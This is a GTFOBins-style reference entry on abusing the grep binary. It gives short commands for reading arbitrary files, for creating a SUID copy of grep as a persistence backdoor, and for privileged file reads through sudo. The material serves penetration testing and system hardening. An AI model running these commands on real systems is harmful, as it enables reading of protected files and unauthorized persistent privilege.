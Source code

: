 # GTFOBin: grep

There are many `grep` flavors that in many cases are just copies, symlinks or wrappers around the original binary that may share the same behavior, for example: `egrep`, `fgrep`, `zgrep`, etc.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
grep '' $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which grep) .

LFILE=file_to_read
./grep '' $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo grep '' $LFILE
```